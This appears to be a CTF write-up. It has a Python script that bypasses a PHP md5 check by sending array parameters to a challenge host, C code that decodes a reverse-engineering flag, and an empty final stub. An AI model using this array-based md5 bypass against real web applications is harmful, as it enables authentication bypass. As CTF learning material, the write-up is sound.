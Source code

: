 # <span id="head7"> web</span>
## <span id="head8"> ez_bypass</span>
利用数组类型，使得md5返回null，绕过。ez_bypass.py
```python
#coding:utf-8
import urllib  
import urllib2
import cookielib

cookie = cookielib.CookieJar()  
opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cookie))
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36'}
postdata= urllib.urlencode({'passwd':'1234567a'})
req = urllib2.Request(url = 'http://b4c6914c-bdc0-48af-b6eb-5a51b9b3686c.merak-ctf.site/?id[]=aaa&gg[]=bbb',headers=headers,data=postdata)
#访问该链接#
result = opener.open(req)
#打印返回的内容#
a=result.read() 
print a
```
# <span id="head9"> RE</span>
## <span id="head10"> Transform</span>
```c
#include <stdio.h>
#include <stdlib.h>


int dword_40F040[40];
char byte_40F0E0[96];

void initArr() {
	FILE *f = fopen("Transform.exe","rb");
	fseek(f,0xDC40,0);
	fread(dword_40F040,4,40,f);
	fseek(f,0xDCE0,0);
	fread(byte_40F0E0,1,96,f);
	fclose(f);
}
int main() {
	char flag[33] = {0};
	initArr();
	for (int i=0;i<33;i++) {
		int x = dword_40F040[i];
		flag[x] = byte_40F0E0[i] ^ (char)x;
	}
	printf("%s\n",flag);
	return 0;
}
```
## <span id="head11"> 撸啊撸</span>
```c++
#include <iostream>

using namespace std;

```